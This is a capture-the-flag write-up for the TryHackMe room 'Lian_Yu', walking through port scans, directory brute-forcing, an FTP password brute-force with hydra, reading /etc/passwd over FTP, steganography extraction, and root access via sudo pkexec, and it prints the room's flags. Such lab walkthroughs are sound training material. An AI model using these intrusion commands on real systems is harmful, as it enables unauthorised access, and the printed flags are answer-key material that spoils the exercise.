 # Tryhackme.com Room : Lian_Yu
`https://tryhackme.com/room/lianyu`


# Instance
```
export IP=10.10.33.18
```

# Nmap
```
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39005/tcp6  status
|   100024  1          39994/tcp   status
|   100024  1          55846/udp6  status
|_  100024  1          60027/udp   status

```

Let's browse the websever.
Not much, just a static page

We gobuster the server `gobuster dir -w /usr/share/wordlists/dirb/common.txt --url http://$IP`
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```

Not much here, let's find directories `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url http://$IP`
```
/island (Status: 301)
/server-status (Status: 403)
```

We get a static page at `/island`
```
 Ohhh Noo, Don't Talk...............

I wasn't Expecting You at this Moment. I will meet you there

You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante

```

Let's gobuster again `gobuster dir -w /usr/share/wordlists/dirb/common.txt --url http://$IP/island`
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
```

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url http://$IP/island`


We get a static page with a video. We can see this comment in the html
```
you can avail your .ticket here but how?
```

let's gobuster again
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url http://$IP/island/2100`

Can't find anything..

In the mean time, I found that `vigilante` is a valid ftp username.

Seems like we got to find a `*.ticket` file. Tried enumerating with gobuster without luck..

trying to bruteforce ftp password
```
hydra -l vigilante -P /usr/share/wordlists/fasttrack.txt $IP ftp
```

No luck.

Soo, it was actually pretty stupid, just run gobuster with `-x EXTENSION`.
Was trying to run it with multiple wordlists but was actually :
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url http://$IP/island/2100 -x .ticket`

```
/green_arrow.ticket (Status: 200)
```

We get
```
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

Look like base64.. But actually it is base58 (The hint mentionned `https://gchq.github.io/CyberChef/`)
```
!#th3h00d
```

Using webbrowser we reach `ftp://10.10.33.18` and retrieve the 3 images

The `leave_me_alone.png` cannot be displayed, it might not even be an image.

Didn't find any strings in all the images.
There is a `slade` folder in `../`

So we got to get access to the `slade` user

We confirm this reading `ftp://10.10.33.18/../../../etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:104:109::/run/uuidd:/bin/false
Debian-exim:x:105:110::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
slade:x:1000:1000:slade,,,:/home/slade:/bin/bash
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:110:118:ftp daemon,,,:/srv/ftp:/bin/false
vigilante:x:1001:1001:,,,:/home/vigilante:/bin/bash
```

We go back to `Leave_me_alone.png`. We fix the header bytes of the file with `hexeditor`. We can just compare with `Queen_Gambit.png` and use the same first 8 bytes.

We can then see the png image and see the text
```
Just leave me alone. Here take it what you want password
```

We try steghide on `Leave_me_alone.png` but its doesn't support png. We try on `aa.jpg` with passphrase `password` and get a zip file with :
```
passwd.txt
shadow
```

In passwd we find :

```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

In shadow we find
```
M3tahuman
```

we `cat user.txt` :
```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

`sudo -l` give us:
```
(root) PASSWD: /usr/bin/pkexec
```

We can run `sudo /usr/bin/pkexec --user root id`
```
uid=0(root) gid=0(root) groups=0(root)
```

We can then just `sudo /usr/bin/pkexec --user root cat /root/root.txt` :
```
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

We get the root flag :
```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```


